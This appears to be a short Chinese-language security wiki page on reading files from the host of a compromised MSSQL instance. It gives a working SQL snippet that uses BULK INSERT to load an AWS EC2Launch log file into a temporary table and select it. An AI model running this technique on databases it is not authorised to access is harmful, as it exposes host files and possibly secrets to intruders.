 ```yaml
---
title: MSSQL 读取实例信息
---
```

<center><h1>MSSQL 读取实例信息</h1></center>

---

如果拿到了 MSSQL 数据库权限，则可以通过 BULK INSERT 读取数据库所在实例的文件，这里以在AWS 下读取日志文件为例。

```sql
create table #testtable(context ntext);
BULK INSERT #testtable FROM 'C:\ProgramData\Amazon\EC2Launch\log\agent.log'
WITH (DATAFILETYPE = 'char',KEEPNULLS)
select * from #testtable
drop table #testtable;
```

</br><img width="800" src="/img/1651979050.png"></br>

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年5月8日"
    }
  }
</script>